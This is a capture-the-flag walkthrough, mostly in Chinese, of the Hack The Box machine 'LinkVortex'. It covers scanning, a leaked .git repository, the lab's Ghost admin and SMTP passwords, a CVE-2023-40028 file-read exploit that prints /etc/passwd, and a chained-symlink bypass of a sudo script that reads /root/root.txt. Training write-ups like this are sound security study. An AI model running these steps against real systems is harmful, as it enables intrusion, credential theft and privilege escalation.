

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap -sSCV -Pn LinkVortex.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-08 21:44 CST
Nmap scan report for LinkVortex.htb (10.10.11.47)
Host is up (0.088s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
| http-title: BitByBit Hardware
|_Requested resource was http://linkvortex.htb/
| http-robots.txt: 4 disallowed entries 
|_/ghost/ /p/ /email/ /r/
|_http-generator: Ghost 5.58
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.62 seconds
```

## Subdomain Fuzz

```
[root@kali] /home/kali/LinkVortex  
❯ ffuf -u http://linkvortex.htb/ -w ./fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.linkvortex.htb"  -mc 200            ⏎

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb/
 :: Wordlist         : FUZZ: /home/kali/LinkVortex/fuzzDicts/subdomainDicts/main.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 73ms]
:: Progress: [167378/167378] :: Job [1/1] :: 500 req/sec :: Duration: [0:05:55] :: Errors: 46 ::
```

发现存在：`dev.linkvortex.htb`，添加到`/etc/hosts`

## Dirsearch

```
[root@kali] /home/kali/LinkVortex  
❯ dirsearch -u linkvortex.htb -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/LinkVortex/reports/_linkvortex.htb/_24-12-08_21-50-06.txt

Target: http://linkvortex.htb/

[21:50:06] Starting:                                                                                                                            
[21:50:28] 200 - 15KB - /favicon.ico                                      
[21:50:34] 200 - 1KB - /LICENSE                                          
[21:50:44] 200 - 103B  - /robots.txt                                       
[21:50:46] 200 - 255B  - /sitemap.xml  
```

查看`/robots.txt`

```
User-agent: *
Sitemap: http://linkvortex.htb/sitemap.xml
Disallow: /ghost/
Disallow: /p/
Disallow: /email/
Disallow: /r/
```

进入`/ghost`路由，存在登录页面


对`dev.linkvortex.htb`进行目录扫描

```
[root@kali] /home/kali/LinkVortex  
❯ dirsearch -u dev.linkvortex.htb -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/LinkVortex/reports/_dev.linkvortex.htb/_24-12-09_10-27-46.txt

Target: http://dev.linkvortex.htb/

[10:27:46] Starting: 
[10:27:48] 200 - 557B  - /.git/                                            
[10:27:48] 200 - 73B  - /.git/description                                 
[10:27:48] 200 - 201B  - /.git/config
[10:27:48] 200 - 41B  - /.git/HEAD
[10:27:48] 200 - 620B  - /.git/hooks/                                      
[10:27:48] 200 - 402B  - /.git/info/                                       
[10:27:48] 200 - 240B  - /.git/info/exclude                                
[10:27:48] 200 - 401B  - /.git/logs/                                       
[10:27:48] 200 - 175B  - /.git/logs/HEAD
[10:27:48] 200 - 418B  - /.git/objects/                                    
[10:27:48] 200 - 393B  - /.git/refs/                                       
[10:27:48] 200 - 147B  - /.git/packed-refs                                 
[10:27:49] 200 - 691KB - /.git/index                                       
```

## GitHack

存在Git泄露，使用GitHack工具将其拉取下来

```
[root@kali] /home/kali/LinkVortex/GitHack (master) ⚡ 
❯ python GitHack.py -u "http://dev.linkvortex.htb/.git/"
```


可以发现里面存在一些`password`关键字

可以使用第一个密码进行登录

```
username: admin@linkvortex.htb
password: OctopiFociPilfer45
```

成功进入后台


通过`Wappalyzer`扩展可以发现，当前`GhostCMS`的版本是`5.58`


## User

### CVE-2023-40028

通过Google查询，我发现了这个

\[github author="0xyassine" project="CVE-2023-40028"\]\[/github\]

需要修改的地方


```
[root@kali] /home/kali/LinkVortex/CVE-2023-40028 (master) ⚡ 
❯ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

成功读取到`/etc/passwd`

在`GitHack`中还发现了一个`Dockerfile`

```
[root@kali] /home/kali/LinkVortex/GitHack/dev.linkvortex.htb (master) ⚡ 
❯ cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

尝试读取这个`/var/lib/ghost/config.production.json`配置文件

```
[root@kali] /home/kali/LinkVortex/CVE-2023-40028 (master) ⚡ 
❯ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

得到用户名和密码

```
username:bob@linkvortex.htb
password:fibber-talented-worth
```

`ssh`登录后拿到`user.txt`


## Root

检查Bob的命令权限

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

查看这个`/opt/ghost/clean_symlink.sh`

```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh 
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

**如果文件名后缀是 `.png`，并且文件是符号链接**，且目标路径 **不包含 `etc` 或 `root`**（即目标不是敏感文件），脚本会：

- 将符号链接 **移动到 `/var/quarantined`** 目录。

- 如果 `CHECK_CONTENT=true`，脚本会尝试输出该文件的内容。

然后创建符号链接，连接到root.txt下，由于脚本会检查参数，可以使用二次链接来进行绕过，同时将`CHECK_CONTENT`设置为true

```
bob@linkvortex:~$ ln -s /root/root.txt hyh.txt
bob@linkvortex:~$ ln -s /home/bob/hyh.txt hyh.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```



## Summary

获取User的过程是正常的一些**信息收集**、**端口**以及**子域名扫描**等。很明显是dev开发环境存在Githack泄露，开发人员在部署上去的时候并没有关掉这个开发环境。GhostCMS的版本没有被及时更新，存在任意文件读取的CVE，因此获取到了ssh用户的账号密码。

这个machine的Root获取似乎不需要及到提权，而是使用**特殊权限**的脚本对任意文件进行读取。因为`clean_symlink.sh`只是对命令行中的参数进行过滤，而**符号链接**是可以一个接着一个形成**符号链接链条**，从而直接读取到root.txt。（实际上也可以读取root的ssh公钥或者是密码hash，来尝试进行ssh登录，这个我就没有去尝试了，因为通过这个脚本已经可以任意文件读取。But You Can Try It ! ）
